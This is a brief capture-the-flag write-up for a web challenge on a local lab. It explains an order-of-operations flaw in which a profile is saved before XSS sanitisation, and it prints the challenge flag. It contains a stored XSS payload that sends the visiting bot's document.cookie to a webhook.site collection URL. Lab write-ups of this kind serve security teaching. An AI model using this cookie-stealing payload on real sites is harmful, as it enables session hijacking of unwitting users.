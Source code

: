 # Chall Description 

You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...

The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

# Steps

On the website their is a leak about a part of the source code :

```js
  await newProfile.save();
  const isXSSDetected = samitizeJSON(profileData, res);
  if (isXSSDetected) return;
  console.log('Profile created: ', profileData);
  res.redirect('/user?token=${token}');
} catch (err) {
  console.error('Error while creating profile :', err);
  res.status(500).send('Error while creating profile.')
}
```

We can see that profile is saved before sanitaze, so even if it's fail it will save the profile.

So with `webhook.site` and this xss payload :

```js
<script>document.location = "https://webhook.site/XXXXXXXXXXXXXXXXXXXXXXXX/" + document.cookie</script>
```

We just have to create an article and wait for the admin to verify it and there is our flag :

`HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}`
